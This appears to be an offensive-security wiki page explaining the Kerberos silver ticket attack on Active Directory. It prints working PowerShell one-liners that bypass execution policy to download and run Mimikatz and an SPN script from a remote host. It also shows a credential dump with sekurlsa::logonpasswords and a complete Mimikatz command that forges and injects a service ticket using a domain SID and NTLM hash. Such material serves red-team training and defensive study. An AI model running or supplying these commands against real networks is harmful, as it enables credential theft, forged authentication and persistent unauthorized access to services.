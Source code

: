 # Silver Ticket

## Intro

Silver ticket attack is one of the ways to gain domain persistence. Once you have gained domain admin or you could dump hashes of a service account some how. If you have recalled how Kerberos works let’s see where this attack fits in the cycle.

On the last step of the process when the client sends a TGS to the service that is where we can send a forged TGS and get access directly to the service and get a service ticket using this method.

![](../../../../.gitbook/assets/image%20%28191%29.png)

#### Silver ticket abuses the part of Kerberos authentication where a client sends a Valid TGS to get a service ticket. So if an attacker knows the hash of the service account he can forge a fake service ticket with it. Kerberos will trust it since it can be decrypted by the service as its signed by the NTLM hash of the service.

{% hint style="info" %}
downside of this attack is at unlike golden ticket which gives us access to everything. A silver ticket will only allow us access to a particular service or all the services that are running with the same service account.

Another disadvantage of this attack is if the service account is a machine account or a user account. If the password of the account changes this attack will fail. Since we wont have the correct hash of the user/machine account usually it changes within 30 days for machines. We would generally target these services when it comes to performing a silver ticket attack. CIFS \(file system\), HOST \( can schedule tasks \), RPCSS Host \(runs wmi\), WSman/http \(ps remoting\) all of these use the machine account as there service account.
{% endhint %}

## Dumping Password Hash

If an attacker can gain admin rights to the computer \(to gain debug access\) or be able to run code as local System, the attacker can dump the AD computer account password hash from the system using Mimikatz \(the NTLM password hash is used to encrypt RC4 Kerberos tickets\)

#### run this with admin privileges to load mimikatz into memory and dump user hashes:

```text
powershell -ep bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1/mimikatz.ps1'); invoke-mimikatz -command 'sekurlsa::logonpasswords'"
```

![](../../../../.gitbook/assets/image%20%28189%29.png)

**Target** – This is the host, which can be copied from the SPN value. 

```text
powershell -ep bypass -c "iex(new-object system.net.webclient).downloadstring('http://192.168.56.1/getspn.ps1')"
```

![](../../../../.gitbook/assets/image%20%28186%29.png)

## Forging Silver Ticket

#### the syntax for mimikatz command is:

```text
 Invoke-Mimikatz -Command 'kerberos::golden /domain:megabank.local /sid:S-1-5-21-4081310294-3909750490-1069944866-1156 /target:sql.megabank.local:60111 /service:sql /rc4:77a5ee35032ad22d515577e7bd8e56c7 /user:paul /ptt'
```

**/domain :** domain name

**/sid:** domain SID value

**/target:** target service SPN

**/service:** service name

**/user:** username to create ticket for

**/rc4:** NTLM hash, will use 

**/id , /groups :** these are to specify user id and group but this is optional

/endin : specify ticket lifetime in minutes \(default 10 years\)

**/ptt :** stands for pass the ticket it will load the ticket in memory. If we want to extract ticket on disk we can use **/ticket** option instead.

#### Now if we run the command above we get silver ticket that is created and stored in our current session

#### Now if we try to access the file system on sql.megabank.local machine. We can do it because we already have the tickets to authenticate us.

## Host Exploitation with Silver Ticket

By issuing a klist command you can see that we now have the ticket for sql service.

 

![](../../../../.gitbook/assets/image%20%28190%29.png)



more attack scenarios with silver tickets

{% embed url="https://adsecurity.org/?p=2011" %}





